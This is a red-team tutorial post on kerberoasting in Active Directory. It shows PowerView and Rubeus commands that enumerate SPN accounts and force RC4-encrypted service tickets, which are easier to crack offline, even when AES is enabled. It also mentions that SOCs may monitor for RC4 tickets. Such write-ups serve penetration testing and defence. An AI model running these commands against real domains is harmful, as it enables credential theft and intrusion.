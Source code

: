 ```yaml
---
layout: post
title: "kerberoasting requesting rc4 encrypted tgs when aes is enabled"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted (instead of AES) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code title="attacker@victim" %}
```
Get-NetUser -SPN sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-37-30.png>)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-39-53.png>)

If the user is now set to support AES encryption:

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-40-51.png>)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-58-37.png>)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket (if RC4 is not disabled in the environment, which does not seem to be common yet):

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 (encryption type 0x17/23) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](<../../.gitbook/assets/Screenshot from 2019-05-06 16-03-06.png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}
@spotheplanet
